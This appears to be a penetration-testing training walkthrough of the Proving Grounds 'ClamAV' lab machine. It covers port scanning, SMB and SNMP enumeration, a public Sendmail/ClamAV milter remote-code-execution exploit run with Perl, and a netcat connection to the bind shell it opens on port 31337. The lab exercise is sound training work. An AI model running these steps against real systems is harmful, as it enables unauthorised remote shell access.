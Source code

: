 ```yaml
---
title: ClamAV
date: 2025-04-18
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: clamav.png
media_subpath: /assets/img/posts/2025-04-18-clamav/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Easy Linux box ClamAV. Let’s start ..

## Nmap Scan

Run a quick Nmap scan:

```bash
nmap --open $IP
```

```
TCP
PORT    STATE SERVICE
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
139/tcp open  netbios-ssn
199/tcp open  smux
445/tcp open  microsoft-ds
```

### UDP

Run UDP port scan on top 100 ports:

```bash
nmap -sU -F $IP
```

```
PORT     STATE         SERVICE
137/udp  open          netbios-ns
138/udp  open|filtered netbios-dgm
161/udp  open          snmp
1718/udp open|filtered h225gatedisc
```

### Detailed Nmap Scan

```bash
nmap -sVC -vvv $IP --script vuln -p22,25,80,139,199,445 
```

## Services

### Port 445

```
445/tcp open  netbios-ssn Samba smbd 3.0.14a-Debian (workgroup: WORKGROUP)
smb-security-mode:
|   account_used: guest
|   authentication_level: share (dangerous)
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Port 25

**Sendmail** **8.13.4/8.13.4**/Debian-3sarge3

### Port 139

Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

```
 0XBABE         Wk Sv PrQ Unx NT SNT 0xbabe server (Samba 3.0.14a-Debian) brave pig
    platform_id     :       500
    os version      :       4.9
    server type     :       0x9a03

```

**Shares**

```
rpcclient $> netshareenumall
netname: print$
remark: Printer Drivers
path:   C:\var\lib\samba\printers
password:
netname: IPC$
remark: IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
path:   C:\tmp
password:
netname: ADMIN$
remark: IPC Service (0xbabe server (Samba 3.0.14a-Debian) brave pig)
path:   C:\tmp
password:
```

### Port 161

```bash
snmpwalk -v2c -c public $IP
```

iso.3.6.1.2.1.1.1.0 = STRING: "Linux 0xbabe.local 2.6.8-4-386 #1 Wed Feb 20 06:15:54 UTC 2008 i686"

iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10

iso.3.6.1.2.1.1.3.0 = Timeticks: (411690) 1:08:36.90

iso.3.6.1.2.1.1.4.0 = STRING: "Root [root@localhost](mailto:root@localhost) (configure /etc/snmp/snmpd.local.conf)"

iso.3.6.1.2.1.1.5.0 = STRING: "0xbabe.local"

iso.3.6.1.2.1.1.6.0 = STRING: "Unknown (configure /etc/snmp/snmpd.local.conf)"

iso.3.6.1.2.1.1.8.0 = Timeticks: (0) 0:00:00.00

iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.2.1.31

iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.1

iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.2.1.49

iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.2.1.4

iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.2.1.50

iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.6.3.16.2.2.1

iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.6.3.10.3.1.1

iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.6.3.11.3.1.1

iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.15.2.1.1

## Web

### Port 80

Apache/1.3.33

`Apache 1.3.34/1.3.33 (Ubuntu / Debian) - CGI TTY Privilege Escalation`                                                                                                                                  → linux/local/3384.c

![image.png](image.png)

## Exploitation

Searching for public exploits for Sendmail with ClamAV we can find:

[https://www.exploit-db.com/exploits/4761](https://www.exploit-db.com/exploits/4761)

![image.png](image%201.png)

This is Remote Code Execution exploit

![image.png](image%202.png)

It opens u port 31337 on the target machine to connect to it with bind shell.

Executing the exploit:

```bash
perl exploit.pl $IP
```

Then connect to the port 31337 with

```bash
nc $IP 31337
```
## Mitigation
- Update ClamAV milter
